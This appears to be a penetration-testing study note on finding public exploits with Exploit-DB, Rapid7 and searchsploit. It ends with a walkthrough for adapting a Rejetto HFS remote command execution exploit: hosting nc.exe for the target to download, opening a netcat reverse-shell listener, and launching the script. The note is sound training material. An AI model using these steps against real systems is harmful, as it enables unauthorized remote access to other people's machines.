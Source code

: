 

# **Search Exploits:**

This is the most trusted site to get exploits from (***Choose verified exploits***):
https://www.exploit-db.com


https://www.rapid7.com/db/


### **Google Dorks:**

	vsftpd 2.3.4 site:exploit-db.com


# **Searchsploit**

contains the entire Exploit-db database of exploits comes pre-packaged with Kali Linux.

They're stored in: `/usr/share/exploitdb/exploits/`

![[Pasted image 20250424202926.png | 1000]]

### **How to search:**

`-c` search with case sensitive. 

	searchsploit -c OpenSSH


`-t` search for only exploits that contains "Buffer Overflow" in the title. 

	searchsploit -t Buffer Overflow


`-e`  exact anything.

	searchsploit -e "Window XP"


Filter for remote exploits on windows hosts running SMB service.

	searchsploit remote windows smb


Copy an exploit from its PATH to current working directory:

	searchsploit -m /PATH


Show Exploit URL instead of EDBID:

	searchsploit -w vsftpd




# **Exploit tweaking Example:**

for this exploit: 

	Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                                                                                      | windows/remote/39161.py


1. We changed the "ip_addr" and "local_port" variables.
2. We want to host the `nc.exe` on a webserver as the exploit will download it to the target system

		cp /usr/share/windows-resources/binaries/nc.exe /root/Desktop
		python3 -m http.server 80

3. Now create a netcat listener with the same port we specified in the variable in the exploit:

		nc -nvlp 7777


4. Now execute the exploit with `python 39161.py <target_ip> <target_port>`


![[Pasted image 20250425152216.png]]


